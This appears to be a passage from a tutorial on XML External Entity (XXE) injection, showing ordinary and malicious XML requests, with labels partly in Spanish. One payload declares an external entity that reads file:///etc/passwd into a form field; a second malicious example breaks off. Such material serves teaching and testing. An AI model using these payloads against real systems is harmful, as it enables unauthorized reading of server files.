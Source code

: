 ```xml
		</email>
		<message>
			text
		</message>
	</contact>
```

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
	<contact>
		<name>
			&xxe;
		</name>
		<email>
			ge0@email.com
		</email>
		<message>
			text
		</message>
	</contact>
```
## Example 2
Valid request
```xml
<acceso>
    <nombredeusuario>Jaime</nombredeusuario>
    <contrasena>clave</contrasena>
</acceso>
```

Normal request
```xml
<?xml version="1.0" encoding="UTF-8"?><root><name>Carlos</name><tel>318211231312</tel><email>carlos@correo.com</email><password>clavesecreta</password></root>
``` 
 
Malicious request
 ```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE jar [
<!ELEMENT jar ANY >
